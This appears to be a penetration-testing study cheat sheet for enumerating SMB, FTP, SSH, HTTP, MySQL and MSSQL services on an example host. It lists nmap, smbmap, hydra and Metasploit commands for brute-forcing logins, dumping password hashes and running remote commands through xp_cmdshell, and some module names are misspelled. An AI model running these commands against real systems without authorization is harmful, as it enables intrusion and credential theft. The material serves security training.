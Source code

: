 # Enumeration
### Enumerating servers and services

#### SMB:
 - Windows implementation of file share
 - Server Message Block - Server Message Block (SMB) is a network protocol primarily used for file sharing, printer sharing, and inter-process communication between nodes on a network and is on port 445
 - smb enumeration using Nmap Scripts
         - $ nmap -p 445 --script smb-protocols 10.10.10.10  ##### ***Note: the 10.10.10.10 IP address is used as an example (Provides a dialect host supports, such as Win XP, Win 2003, - NT LM 0.12 (SMBv1), 2.02 (SMBv2)&  2.10 (SMBv2.1) )
         - $ nmap -p445 --script smb-security-mode 10.10.10.10
         - $ nmap -p445 --script smb-enum-sessions 10.10.10.10
         - $ nmap -p445 --script smb-enum-sessions --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10
 - enumerate shares --> $ nmap -p445 --script smb-enum-shares 10.10.10.10
 - $ nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 (Lists available SMB shares)
 - enumerate users  --> $ nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.10.10.10 
 - check the Nmap Scripts documentation for more SMB scripts that can be useful for penetration testing
 - tool used - SMBMap
 - $ smbmap -u guest -p "" -ed . -H 10.10.10.10
 - running a command using SMBMap --> $ smbmap -H 10.10.10.10 -u administrator -p smbserver_771 -x 'ipconfig'
 - check the -help and documentation for more commands  
 - you can connect, enumerate, upload, and download files using the SMBMap 
 - $ smbmap -H 10.10.10.10 -u administrator -p smbserver_771 --download 'c$\flag.txt'

#### SMB - Samba
- Samba is the SMB version of the Linux and is aslo on port 445.
- can also use Metasploit  by using --> auxiliary(scanner/smb/smb_version)
- connect via smbclient and rpcclient --> These tools are preinstalled in Kali Linux
- enum4linux  --> great tool

#### FTP
- File Transfer Protocol
- port 21
- check for usernames using hydra --> $ hydra -L /usr/share/merasploit-framework/data/wordlists/common_users.txt -P /usr/share/merasploit-framework/data/wordlists/unix_passwords.txt 10.10.10.10 ftp
- we can also do it via Nmap Scripts --> nmap 10.10.10.10 --script ftp-brute --script-args userdb=/root/users -p 21  --> users in this argument is the list of users 
- connet via ftp  --> ftp 10.10.10.10
- anonymous Login --> nmap 10.10.10.10 -p 21 --script ftp-anon <--> If anonymous login was allowed, connect using FTP and enter anonymous for the user and no password

#### SSH
- Secure Shell
- port 22
- how to connect :- $ ssh root@10.10.10.10
- $ nc 10.10.10.10 22
- $ nmap 10.10.10.10 -p 22 --script ssh2-enum-algos  --> to check which algorithms is being used
- nmap 10.10.10.10 -p 22 --script ssh-hostkey --script-arg ssh_hostkey=full --> pull rsa host key
- check for weak passwords - $ nmap 10.10.10.10 -p 22 --script ssh-auth-methods --script-args="ssh.user=student" --> student can be admin or any user
- SSH Dictionary attack -- for poor passwords and poor misconfiguration
- $ hydra -l student -P /usr/share/passwordlists/rockyou.txt 
- $ nmap 10.10.10.10 -p 22 --script ssh-brute --script-args user=administrator ***or can be a list of users and can be specified by -- userdb=/root/users***
- we can also use Metasploit to perform a brute force 
- metasploit command --> use auxiliary/scanner/ssh/ssh_login -- configure the options and run

#### HTTP
- for hosting websites
- $ whatweb 10.10.10.10
- $ http 10.10.10.10
- $ dirb http://10.10.10.10
- $ browsh --startup-url http://10.10.10.10/Default.aspx  --> a good tool if you have access to just the terminal, it will help you see somehow the actual webpage
- Nmap scripts --> nmap 10.10.10.10 -sV -p 80 --script http-enum 
- $ nmap 10.10.10.10 -sV -p 80 --script http-headers
- $ nmap 10.10.10.10 -sV -p 80 --script http-methods --script-args http-methods.url-path=/webdav/
- the above commands are an example of how to enumerate an HTTP with Nmap Scripts 
- for Linux/Unix OS
- nmap 10.10.10.10 -p 80 -sV -script banner
- using Metasploit --> use auxuilary/scanner/http/http_version --> configure all options
- wget "http://10.10.10.10/index"  --> will download the webpage
- also browsh 
- Metasploit again --> use auxiliary/scabber/http/brute_dirbs 
- dirb http://10.10.10.10 <passwordlist path>
- robots.txt --> use auxiliary/scanner/http/robots_txt

#### SQL
- $ nmap 10.10.10.10 -p 3306 --script=mysql-empty-password --> check the Nmap documentation for more scripts for MySQL
- $ mysql -h 10.10.10.10 -u root 
- once inside -- show databases 
- and then -- use books; 
- using Metasploit 
- use auxiliary/scanner/mysql/mysql_writeable_dirs
- use auxiliary/scanner/mysql/mysql_hashdump  --> another Metasploit auxiliary that can be used
- $ nmap 10.10.10.10 -p 3306 --script=mysql-empty-password
- dictionary attack using Metasploit --> use auxiliary/scanner/mysql/mysql_login
- or by hydra --> $ hydra -l root -P < **password list path**> 10.10.10.10 mysql

#### MSSQL -- Windows version
- Nmap script fo MSSQL --> nmap 10.10.10.10 -p 1433 --script ms-sql-info 
- $ nmap 10.10.10.10 -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
- $ nmap 10.10.10.10 -p 1433 --script ms-sql-brute --script-args userdb=< **users list path**>,password=< **pass list path**>
- check for empty passwords --> $ nmap 10.10.10.10 -p 1433 --script ms-sql-empty-password
-  $ nmap 10.10.10.10 -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
- $ $ nmap 10.10.10.10 -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria
- $ nmap 10.10.10.10 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" --> running a command 
- Metasploit 
- $ use auxiliary/scanner/mssql/mssql_login  --> configure all options
- $ use auxiliary/admin/mssql/mssql_enum 
- $ use auxiliary/admin/mssql/mssql_enum_sql_logins
- $ use auxiliary/admin/mssql/mssql_exec -- set cmd whoami
- $ use auxiliary/admin/mssql/mssql_enum_domain_accounts
- For all the above Metasploit commands, do complete all the options that are required with a yes
